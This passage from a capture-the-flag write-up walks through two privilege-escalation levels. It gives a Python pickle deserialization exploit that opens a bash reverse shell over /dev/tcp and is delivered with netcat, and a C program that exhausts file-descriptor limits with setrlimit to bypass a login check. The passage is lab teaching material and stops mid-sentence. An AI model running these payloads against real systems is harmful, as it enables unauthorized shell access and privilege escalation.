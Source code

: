 ```python
#!/usr/bin/env python
import pickle
import os

class PwnClass(object):
	def __reduce__(self):
		return (os.system, ("bash -i >& /dev/tcp/localhost/8080 <&1",),)

instance = PwnClass()
file_obj = open("pickle", "w")
pickle.dump(instance, file_obj)
```

This creates a file `pickle` which contain the exploit. We then open a `netcat` server on another SSH session and send the exploit to the python server using `nc localhost 10007 < pickle`. We now have a shell logged as `flag17`.

## Level 18

What we can do here is limit the maximum number of opened file of a process using `setrlimit()`, this way when the program will try to open the password, file, it will fail and the code inside the if will not be executed, which allow the `loggedin` varaible to be set. Here is the exploit : 

```c
#include <sys/time.h>
#include <sys/resource.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp)
{
	struct rlimit limits;
	limits.rlim_max = 4;
	limits.rlim_cur = 4;
	setrlimit(RLIMIT_NOFILE, &limits);
	execve("/home/flag18/flag18", argv, envp);
}
```

The limit is set to 4 as there is some files that need to be opened anyway (shared libs, and so on). If we set it to 3, the program will not even start. The problem is that when library are loaded, the following events happen : the lib is opened, the content is copied in memory, and finally the file is closed. But as the file is closed, it frees a slot for a new file to be opened. This means that we have to specify a debug file to `flag18`, this way once the program is loaded it will open a new file and the limit of 4 opened files will be reached again.

Now if we launch our exploit with `./exploit -d dummy_logfile` and then type `login` and `shell`, we get the following error :

```bash
./exploit: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
```

This happends because once again, the program has to load an extra library. But after we have log in, we can close the log file to free a slot ! Let try it : we launch the flag using `./exploit -d dummy_logfile`, type `login`, `closelog` and finally `shell`. It still gives an error :
